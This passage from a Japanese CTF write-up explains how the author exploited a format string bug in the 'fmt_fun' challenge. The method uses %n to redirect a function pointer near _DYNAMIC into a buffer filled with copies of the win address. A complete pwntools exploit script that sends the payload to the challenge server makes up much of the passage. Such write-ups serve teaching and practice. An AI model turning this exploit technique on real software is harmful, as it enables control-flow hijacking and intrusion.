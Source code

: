 `call   qword ptr [r14]`で落ちている。`r14`の値を見ると、`R14  0x403e2a (_DYNAMIC+106) ◂— 0xfef5000000000000`となっており、`_DYNAMIC`で示された箇所から106だけずれた場所になっている。ここで先程0から114に書き換えた事を考えるとこの値から8だけ引いた分が`_DYNAMIC`との差分になると思われる。よってここを上手く調整して`[r14]`が`win`関数を指すようにしたい。

この問題のELFは非常に都合良く出来ており、この`_DYNAMIC`はグローバル変数である`buf`の上に存在している。よって、`_DYNAMIC + x`が`buf`の中を指すように`x`をFSBを用いて調整し、そこに`win`関数へのアドレスを置いておけば終了時に`win`が呼び出されることが期待できる。`x`を細かく調整するのは面倒なので、`_DYNAMIC`から`buf`までの差分に8を足してそこからFSBのペイロード分を足して更に余裕を持たせた値を設定し、一方、関数ポインタとなる箇所には周辺に`win`関数の値を敷き詰めてどこが来ても飛べるという荒業を使った[^3]。

## Code

```python
from pwn import remote, process, p64, ELF, u64
import sys


DEBUG = "-d" in sys.argv


if DEBUG:
    libc = ELF("/usr/lib/x86_64-linux-gnu/libc-2.31.so")
else:
    libc = ELF("./libc.so.6")

elf = ELF("./fmt_fun")

addrs = {
    "win": 0x401251,
    "_DYNAMIC": 0x403e2a - 106,  # from debugger
    "buf": 0x404040
}

# ================== exploit ====================

if DEBUG:
    sc = remote("localhost", 13337)
    libc = ELF("/usr/lib/x86_64-linux-gnu/libc-2.31.so")
    input("[+] attach")
else:
    sc = remote("fmt-fun.chal.imaginaryctf.org", 1337)
    libc = ELF("./libc.so.6")

sc.recvuntil(b"below:\n")

diff = addrs["buf"] - addrs["_DYNAMIC"]  # 640

print(hex(diff), diff)

fmt_payload = f"%{diff+8+64}c%26$n"
pad = b"\x00" * (16 - len(fmt_payload) % 16)
win_pad = p64(addrs["win"]) * 20
payload = fmt_payload.encode() + pad + win_pad

assert len(payload) < 400

sc.sendline(payload)
sc.interactive()

```


[^1]: このCTFでこの問題を含めて3回出ているので、作者はFSBが好きなのかもしれない
[^2]: pwndbgだと色が付いていて見やすいがブログに出力をコピペする時はそうもいかない
[^3]: Heap Sprayで`nop`を連発したり、ROPで`ret`を連発するみたいな感じで実は気に入っている方法である
[^4]: 更に`printf`では一度位置指定としての数字を使うとその時点で各数字に対応する値が確定する。よって`%n`での書き換えを同一書式文字列で複数回行おうとすると`%n`は実質1回しか使えず、後は`%`を大量に並べるクソパズルになったのもやる気を削いだ原因の1つ